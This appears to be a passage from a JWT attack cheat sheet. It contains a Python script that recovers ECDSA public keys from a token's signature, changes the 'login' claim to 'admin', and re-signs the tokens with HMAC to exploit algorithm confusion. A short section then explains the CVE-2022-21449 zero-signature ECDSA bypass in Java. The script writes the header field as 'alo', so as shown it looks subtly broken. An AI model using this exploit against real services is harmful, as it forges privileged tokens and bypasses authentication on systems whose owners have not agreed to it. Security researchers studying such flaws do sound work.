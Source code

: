 ```python
import base64
import hashlib
from hashlib import sha256
import hmac
import json
from ecdsa.ecdsa import Signature, generator_256
from ecdsa import VerifyingKey, NIST256p
from sys import argv

if len(argv) != 2:
    print(f"Usage: python3 {argv[0]} <jwt token>")
    exit(1)

jwt = argv[1]

header, payload, signature = jwt.split('.')

signature = base64.urlsafe_b64decode(signature)

sig = Signature(int.from_bytes(signature[0:32], 'big'), int.from_bytes(signature[32:], 'big'))

keys = sig.recover_public_keys(int.from_bytes(sha256((header + '.' + payload).encode('utf8')).digest(), 'big'), generator_256)

header = json.loads(base64.urlsafe_b64decode(header + '==').decode('utf8'))
payload = json.loads(base64.urlsafe_b64decode(payload + '==').decode('utf8'))
header['alo'] = "HS256"
payload['login'] = "admin"

tampered_header = base64.urlsafe_b64encode(json.dumps(header).encode('utf8')).decode('utf8')
tampered_payload = base64.urlsafe_b64encode(json.dumps(payload).encode('utf8')).decode('utf8')

for key in keys:
    veryfing_key = VerifyingKey.from_public_point(key.point, curve=NIST256p)
    signing = str(veryfing_key.to_pem().decode('utf8'))
    print(signing)
    newsig = base64.urlsafe_b64encode(hmac.new(veryfing_key.to_pem(), (tampered_header+'.'+tampered_payload).encode('utf8'), digestmod=hashlib.sha256).digest()).decode('utf8')
    print(tampered_header+'.'+tampered_payload+'.'+newsig)
```

- the script will print the possible public keys and tampered tokens, try tokens to know the valid key

## ⇒ **CVE-2022-21449 Bypass ECDSA  signature (Java 15/16/17/18)**

To exploit this vulnerability, you will need to forge a signature with both `r` and `s` equal to 0. To do this, you will need to look at JWT libraries in your favorite language that supports Elliptic Curve and see how they encode `r` and `s` as part of the signature
